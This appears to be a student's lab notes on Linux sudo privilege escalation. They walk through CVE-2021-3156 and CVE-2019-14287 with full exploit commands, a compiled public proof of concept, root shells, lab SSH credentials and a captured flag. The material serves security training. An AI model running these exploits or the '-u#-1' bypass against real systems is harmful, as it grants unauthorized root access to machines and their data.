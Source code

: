 # Sudo

The program sudo is used under UNIX operating systems like Linux or macOS to start processes with the rights of another user. 

/etc/sudoers file specifies which users or groups are allowed to run specific programs and with what privileges.

sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d

## Vulnerability

CVE-2021-3156 affects :

1.8.31 - Ubuntu 20.04
1.8.27 - Debian 10
1.9.2 - Fedora 33
and others

1) Find version :

sudo -V | head -n1
Sudo version 1.8.31

cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"

2) Upload exploit

git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c

3) Run exploit

./sudo-hax-me-a-sandwich

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

4) Choose option depending on OS version

Here :
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"

So :
./sudo-hax-me-a-sandwich 1

id
uid=0(root) gid=0(root) groups=0(root)

## Sudo Policy Bypass

CVE-2019-14287
https://www.sudo.ws/security/advisories/minus_1_uid/

It affects all versions below 1.8.28

Principle : If a negative ID (-1) is entered at sudo, this results in processing the ID 0, which only the root has

Prerequisite : It had to allow a user in the /etc/sudoers file to execute a specific command

sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id

sudo -u#-1 id

id
uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)

## LAB

ssh htb-student@10.129.121.197
HTB_@cademy_stdnt!

sudo -V | head -n1
Sudo version 1.8.21p2

cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"

id
uid=1001(htb-student) gid=1001(htb-student) groups=1001(htb-student)


git clone https://github.com/blasty/CVE-2021-3156.git

scp -r CVE-2021-3156 htb-student@10.129.121.197:/home/htb-student/CVE-2021-3156/

On our host :
cd CVE-2021-3156
make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c

scp sudo-hax-me-a-sandwich CVE-2021-3156 htb-student@10.129.121.197:/home/htb-student/CVE-2021-3156/

./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>


./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
Sorry, user htb-student is not allowed to execute 'sudoedit AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' as root on ubuntu.

--> Failed : bad version

sudo -l
[sudo] password for htb-student: 
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu

cat /etc/passwd | grep htb-student
htb-student:x:1001:1001::/home/htb-student:/bin/sh

cd /
sudo -u#-1 ncdu -o export /root/
/root/.viminfo                                                           2 files

cat export
[1,1,{"progname":"ncdu","progver":"1.14.1","timestamp":1706182296},
[{"name":"/root","asize":4096,"dsize":4096,"dev":64768,"ino":8194},
{"name":".viminfo","asize":8295,"dsize":12288,"ino":431},
{"name":".bashrc","asize":3106,"dsize":4096,"ino":276},
{"name":"flag.txt","asize":25,"dsize":4096,"ino":1789},
[{"name":"snap","asize":4096,"dsize":4096,"ino":17606},
[{"name":"lxd","asize":4096,"dsize":4096,"ino":17745},
[{"name":"24918","asize":4096,"dsize":4096,"ino":262241}],
[{"name":"common","asize":4096,"dsize":4096,"ino":17747}],
[{"name":"24846","asize":4096,"dsize":4096,"ino":262237}],
{"name":"current","asize":5,"ino":3754,"notreg":true}]],
[{"name":".cache","asize":4096,"dsize":4096,"ino":262164},
{"name":"motd.legal-displayed","ino":262169}],
[{"name":".ssh","asize":4096,"dsize":4096,"ino":14334},
{"name":"authorized_keys","ino":14335}],
{"name":".bash_history","asize":9,"ino":1125,"notreg":true},
{"name":".profile","asize":161,"dsize":4096,"ino":277}]]$ 

sudo -u#-1 ncdu -1xo- /root/ | gzip > /home/htb-student/scan.gz

gzip -d scan.gz

which ncdu
/usr/bin/ncdu

sudo -u#-1 /usr/bin/ncdu

sudo -u#-1 /bin/ncdu

sudo -u#-1 /bin/ncdu -f /root/flag.txt

sudo -u#-1 ncdu -f /root/flag.txt

sudo -u#-1 /bin/ncdu
b

--> Option b spawn a shell into the directory

# cd /root/
# cat flag.txt
HTB{SuD0_e5c4l47i0n_1id}

